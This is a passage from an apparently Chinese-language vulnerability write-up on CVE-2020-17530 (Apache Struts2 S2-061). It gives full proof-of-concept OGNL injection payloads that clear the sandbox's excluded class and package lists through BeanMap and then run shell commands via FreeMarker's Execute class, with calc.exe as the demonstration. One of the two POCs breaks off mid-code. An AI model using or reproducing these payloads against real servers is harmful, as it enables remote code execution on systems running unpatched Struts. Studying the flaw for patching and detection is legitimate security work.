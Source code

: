 这里就可以使用黑名单中的`freemarker.template.utility.Execute`类中的`exec`方法执行Shell了。需要最少和前面的8一起使用，才能执行成功。可以直接使用最后面的完整poc代码执行。

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t014b4b37153a9ab5bc.png)](https://p2.ssl.qhimg.com/t014b4b37153a9ab5bc.png)

[![img](resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t0107791381f8c2bd7b.png)](https://p2.ssl.qhimg.com/t0107791381f8c2bd7b.png)

执行shell的ognl代码

```
#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'})
```

 

## 完整POC

### 使用application，就是上面思路的完整POC

```
%{
(#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#application.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#application.map2.setBean(#application.get('map').get('context')) == true).toString().substring(0,0) + 


(#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#application.map3.setBean(#application.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

(#application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +

(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
}
```

### 使用request，单次请求有效的完整POC (推荐)

```
%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 

(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 


(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 

```